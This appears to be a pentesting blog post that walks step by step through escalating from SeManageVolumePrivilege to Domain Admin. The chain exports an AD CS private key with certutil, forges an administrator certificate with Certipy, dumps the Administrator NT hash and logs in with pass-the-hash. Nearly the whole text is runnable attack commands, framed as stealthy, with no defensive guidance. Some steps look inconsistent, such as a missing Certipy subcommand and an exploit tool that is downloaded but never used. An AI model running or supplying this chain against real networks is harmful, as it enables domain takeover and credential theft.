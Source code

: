 ```yaml
---
title: "SeManageVolumePrivilege Exploit"
description: "SeManageVolumePrivilege Exploit – AD CS Certificate Theft to DA via Certipy"
date: 2025-06-10T10:00:00+05:30
categories:
  - hacking
  - windows
tags:
  - Privilege Escalation
  - windows
  - active directory
  - pentesting
  - shadow
---
```

Abusing the `SeManageVolumePrivilege` allows **low-privileged users** to perform raw volume access — often used for **LSASS dumping**. However, a more stealthy and devastating abuse is to **extract Active Directory Certificate Services (AD CS) private keys** directly from disk, then forge an administrator certificate for full domain escalation.

## Requirements
- Current user must have:  
  `SeManageVolumePrivilege` (check via `whoami /priv`)
  
- Target system:
  - Must be **a Certificate Authority** or have access to `.pfx`/certs (like `C:\Windows\System32\certsrv\certenroll`)

## Tools
- `SeManageVolumeExploit.exe` — read raw volume data  
  [https://github.com/CsEnox/SeManageVolumeExploit](https://github.com/CsEnox/SeManageVolumeExploit)
- `certutil` — native Windows tool for cert export
- `Certipy` — abuse extracted CA to forge certificates  
  [https://github.com/ly4k/Certipy](https://github.com/ly4k/Certipy)

## Steps
### 1. Confirm the privilege:
```powershell
whoami /priv
```
Ensure:
- `SeManageVolumePrivilege` is **Enabled**

### 2. Download + Upload Exploit Tool
```powershell
wget https://github.com/CsEnox/SeManageVolumeExploit/releases/download/public/SeManageVolumeExploit.exe
```
Upload it to the target via `Evil-WinRM`, SMB, or other methods.

### 3. Search for Certificates
Common path:
```powershell
C:\Windows\System32\certsrv\certenroll
```
Look for `.pfx`, `.crt`, or `.crl` files.
```powershell
dir C:\Windows\System32\certsrv\certenroll
```
Example output:
```powershell
certificate-LTD-CA.crl
certificate-LTD-CA+.crl
Certificate-LTD-CA.crt
```
### 4. Export PFX from CA (With Private Key)

Use `certutil`:
```powershell
certutil -exportPFX my "Certificate-LTD-CA" C:\users\youruser\desktop\ca.pfx
```
- Enter a password when prompted to protect the file.
- Download the file to your attack box.

### 5. Forge Admin Certificate
```bash
certipy-ad forge -ca-pfx ca.pfx -upn administrator@corp.local
```
Outputs:  
- `administrator_forged.pfx`

### 6. Authenticate as Domain Admin via Cert
```bash
timewrap corp.local certipy-ad -pfx administrator_forged.pfx -domain corp.local -dc-ip 10.10.10.10
```
*timewrap is my custom bash script, that works same as faketime, `timewrap corp.local` - gets the time and use faketime.*{: .highlight-info}
- This uses PKINIT (Smartcard-style auth)
- Gets a TGT and saves it to `.ccache`

### 7. Dump NT Hash of Administrator
```bash
timewrap corp.local certipy-ad auth -pfx administrator_forged.pfx -domain corp.local -dc-ip 10.10.10.10 --hashes
```
Or reuse `.ccache`:
```bash
export KRB5CCNAME=administrator.ccache
impacket-secretsdump -k corp.local/administrator@DC01.corp.local
```

## Result
- You now have **Administrator's** NT hash.
- Log in via `evil-winrm`, `pass-the-hash`, or dump secrets.
  
```bash
evil-winrm -i 10.10.10.10 -u administrator -H <ntlm_hash>
```

## Impact
- Stealthy — no LSASS injection
- Works **post-exploitation** on CA server
- Full DA access without credentials

## Summary

| Step | Action |
|------|--------|
| Have SeManageVolumePrivilege | Allows raw disk access |
| Locate CA cert + export | Export `.pfx` from system volume |
| Forge cert via Certipy | Become admin with valid certificate |
| PKINIT auth & NTLM hash | Gain full DA access |